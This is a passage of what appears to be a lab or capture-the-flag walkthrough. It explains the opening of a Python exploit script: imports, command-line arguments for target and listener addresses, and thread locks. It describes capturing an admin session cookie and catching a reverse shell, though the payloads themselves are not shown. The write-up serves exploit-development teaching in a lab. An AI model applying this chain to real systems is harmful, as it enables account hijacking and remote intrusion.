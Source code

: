 {% highlight python linenos %}
import argparse, base64, click, logging, contextlib, flask, ipaddress, re, requests, socket, sys, threading, time
{% endhighlight %}

We start by importing the Python modules we will need, as shown above. The reasons why we need each of these modules are listed below.
* argparse - Parsing command line arguments.
* base64 - Base64 decoding
* click, logging - Configure the flask web server to be silent
* contextlib - Ignore read timeouts
* flask - Create a web server with custom endpoints
* ipaddress - Calculate the decimal representation of an ip address
* re - Apply regular expressions to obtain a booking ID and session cookie 
* requests - Send web requests
* socket - Listen for incoming reverse shell connections
* sys - Write socket information to STDOUT
* threading - Create and synchronise threads
* time - Force a thread to sleep for a specific amount of seconds

Next, we parse the command line arguments using argparse. We set the mandatory parameters RHOST, RPORT, LHOST and LPORT which correspond to the remote host's IP address, the remote host's port, an IP where a listener is listening and an port on this IP. The arguments are parsed in the order they are defined, meaning that we would run the script with a command in the format `python3 exploit [RHOST] [RPORT] [LHOST] [LPORT]`. For example, assuming our IP address on the VPN is 10.10.16.7 and that we want the reverse shell payload to connect back to port 9000, we would execute `python3 exploit.py 10.10.10.25 8000 10.10.16.7 9000`. The advantage of using argparse rather than parsing the arguments manually is that it automatically generates help message and issues errors when users give the exploit invalid argument. Finally, we extract the parsed arguments and place them in global variables to have them accessible throughout the code

{% highlight python linenos %}
parser = argparse.ArgumentParser()
parser.add_argument('RHOST',help='Remote host')
parser.add_argument('RPORT',help='Remote port')
parser.add_argument('LHOST',help='Local IP address for reverse shell payload')
parser.add_argument('LPORT',help='Local port for reverse shell payload')
args = parser.parse_args()

LHOST = args.LHOST
LPORT = args.LPORT
RHOST = args.RHOST
RPORT = args.RPORT
URLBASE = "http://"+RHOST+":"+RPORT+"/"
{% endhighlight %}

Then, we configure two locks named "wsLock" and "rsLock". The first lock will be used by Thread 2 to inform Thread 1 (Main) that the web server has received the admin session cookie. The second lock will be used by Thread 1 to inform Thread 3 that a listener has been started and thus that the reverse shell payload can be executed.

{% highlight python linenos %}
wsLock = threading.Lock()
wsLock.acquire()
rsLock = threading.Lock()
rsLock.acquire()
{% endhighlight %}
